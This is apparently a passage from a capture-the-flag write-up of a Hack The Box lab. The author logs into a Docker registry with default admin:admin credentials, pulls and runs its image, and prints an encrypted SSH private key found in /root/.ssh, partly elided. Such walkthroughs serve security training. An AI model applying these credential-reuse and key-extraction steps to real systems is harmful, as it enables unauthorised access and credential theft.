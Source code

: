To interact with the registry without doing API calls manually I'll use the [registry-cli](https://github.com/andrey-pohilko/registry-cli) tool.

```
root@kali:~/htb/registry# registry.py -l admin:admin -r https://docker.registry.htb --no-validate-ssl
---------------------------------
Image: bolt-image
  tag: latest
```

There's a docker image called `bolt-image` present in the registry. I'll download it to my own box so I can execute it and see if there is anything interesting in it. 

```
root@kali:~/htb/registry# docker login -u admin -p admin docker.registry.htb
WARNING! Using --password via the CLI is insecure. Use --password-stdin.
WARNING! Your password will be stored unencrypted in /root/.docker/config.json.
Configure a credential helper to remove this warning. See
https://docs.docker.com/engine/reference/commandline/login/#credentials-store

Login Succeeded
root@kali:~/htb/registry# docker pull docker.registry.htb/bolt-image:latest
latest: Pulling from bolt-image
f476d66f5408: Pull complete 
8882c27f669e: Pull complete 
d9af21273955: Pull complete 
f5029279ec12: Pull complete 
2931a8b44e49: Pull complete 
c71b0b975ab8: Pull complete 
02666a14e1b5: Pull complete 
3f12770883a6: Pull complete 
302bfcb3f10c: Pull complete 
Digest: sha256:eeff225e5fae33dc832c3f82fd8b0db363a73eac4f0f0cb587094be54050539b
Status: Downloaded newer image for docker.registry.htb/bolt-image:latest
```

I'll launch the container in interactive mode so I can look around easily:

```
root@kali:~/htb/registry# docker image list
REPOSITORY                       TAG                 IMAGE ID            CREATED             SIZE
anoxis/registry-cli              latest              c8ecf313a6be        2 months ago        73.6MB
docker.registry.htb/bolt-image   latest              601499e98a60        4 months ago        362MB
root@kali:~/htb/registry# docker run -ti 601499e98a60 /bin/bash
root@4195e2eb99fe:/# 
```

There's an encrypted SSH private key in `/root/.ssh`:

```
root@4195e2eb99fe:~/.ssh# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,1C98FA248505F287CCC597A59CF83AB9

KF9YHXRjDZ35Q9ybzkhcUNKF8DSZ+aNLYXPL3kgdqlUqwfpqpbVdHbMeDk7qbS7w
KhUv4Gj22O1t3koy9z0J0LpVM8NLMgVZhTj1eAlJO72dKBNNv5D4qkIDANmZeAGv
[...]
RLI9xScv6aJan6xHS+nWgxpPA7YNo2rknk/ZeUnWXSTLYyrC43dyPS4FvG8N0H1V
94Vcvj5Kmzv0FxwVu4epWNkLTZCJPBszTKiaEWWS+OLDh7lrcmm+GP54MsLBWVpr
-----END RSA PRIVATE KEY-----
```
